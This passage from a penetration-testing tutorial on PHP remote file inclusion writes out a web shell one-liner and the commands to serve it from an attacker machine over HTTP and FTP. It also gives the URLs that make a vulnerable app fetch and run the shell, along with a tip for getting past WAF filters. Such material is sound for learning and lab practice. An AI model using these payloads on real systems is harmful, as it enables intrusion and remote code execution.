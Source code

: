 In kali attacking machine:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

We will serve this shell from our attacking machine:

```bash
 sudo python3 -m http.server <LISTENING_PORT>
```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:

```html
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

### Example 3: FTP server

In kali attacking machine:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

We will serve this shell from our attacking machine, but using FTP.  We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```bash
# Install the library
sudo apt-get install python3-pyftpdlib

# Launch the server
sudo python3 -m pyftpdlib -p 21  
```

This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF.

And now, from the vulnerable webapp:

```html
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

### Example 4: SMB server

In kali attacking machine:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
